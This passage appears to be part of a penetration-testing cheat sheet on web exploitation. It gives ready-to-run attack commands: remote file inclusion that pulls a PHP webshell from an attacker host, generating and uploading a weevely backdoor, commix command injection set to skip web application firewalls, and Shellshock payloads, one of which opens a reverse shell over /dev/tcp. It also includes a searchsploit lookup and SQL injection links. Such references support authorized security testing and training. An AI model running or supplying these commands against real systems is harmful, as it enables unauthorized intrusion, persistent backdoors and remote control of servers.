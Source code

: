 ```bash
SITE="" ; curl -s "${SITE}/section.php?page=http://ATTACKERIP/php-simple-webshell.php&cmd=whoami"
```

```text

```


Use `weevely` to generate payload and upload it. Use the resulting page to start a session.

```bash
weevely generate test123 weevely.php
SITE="" ; weevely ${SITE}/menu.php?file=http://ATTACKERIP/weevely.php test123
```

```text

```


**Command Injection**

```bash
commix --url="https://${IP}?parameter=" --level=3 --force-ssl --skip-waf --random-agent
```


**CGI**

Check for `shellshock` vulnerability.

```bash
curl -H 'User-Agent: () { :; }; echo "CVE-2014-6271 vulnerable" bash -c id' http://ATTACKERIP/cgi-bin/admin.cgi

curl -H "User-Agent: () { :; }; /bin/bash -c 'echo aaaa;  bash -i >& /dev/tcp// 0>&1; echo zzzz;'" http://ATTACKERIP/cgi-bin/admin.cgi -s | sed -n '/aaaa/{:a;n;/zzzz/b;p;ba}'
```

```text

```


**SQL Injection**

> https://pentestwiki.org/sql-injection/
> https://portswigger.net/web-security/sql-injection/cheat-sheet



#### Searching for Exploit


> https://www.exploit-db.com/searchsploit


Search exploits based on nmap xml output.

```bash
searchsploit --nmap recon/*tcp-initial.xml
```

```text

```
